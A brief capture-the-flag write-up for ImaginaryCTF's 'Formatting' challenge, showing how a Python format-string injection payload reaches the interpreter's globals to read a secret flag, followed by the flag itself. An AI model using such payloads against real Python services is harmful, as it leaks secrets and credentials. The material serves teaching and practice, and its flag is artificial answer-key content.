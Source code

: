![ImaginaryCTF](../../banner.png)

# Formatting

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|100|Web|302|

### Description

```
Wait, I thought format strings were only in C???	
```

### Attachments

```
https://imaginaryctf.org/r/14BD-stonks.py
nc chal.imaginaryctf.org 42014
```
I just googled python format strings vulnerability and followed the [first thing I found](https://www.netsparker.com/blog/web-security/format-string-vulnerabilities/).

```py
flag = open("flag.txt").read()
```

So flag is our secret value and we can manipulate the argument `a`:

```
{a.__init__.__globals__[flag]}
```


There is our flag:
```
ictf{c4r3rul_w1th_f0rmat_str1ngs_4a2bd219}
```